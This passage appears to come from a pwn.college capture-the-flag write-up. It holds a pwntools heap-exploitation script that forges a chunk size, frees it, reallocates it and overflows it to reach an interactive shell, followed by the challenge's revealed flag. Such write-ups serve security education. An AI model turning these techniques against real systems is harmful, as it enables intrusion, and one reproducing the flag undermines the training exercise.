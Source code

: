 ```python
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"A" * 0x30,
        0,
        0x401,
    )

    stack_scanf(payload)
    stack_free()
    # raw_input("DEBUG")
    malloc(0, 0x3F0)

    payload = flat(
        b"A" * (0xB0),
    )
    raw_input("DEBUG")
    scanf(0, payload)

    send_flag("A" * 0x10)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{AzMm2HpvBwKXfmMU3AoN5SEUd4H.0lN5MDL5cTNxgzW}`]

# Level 14.0
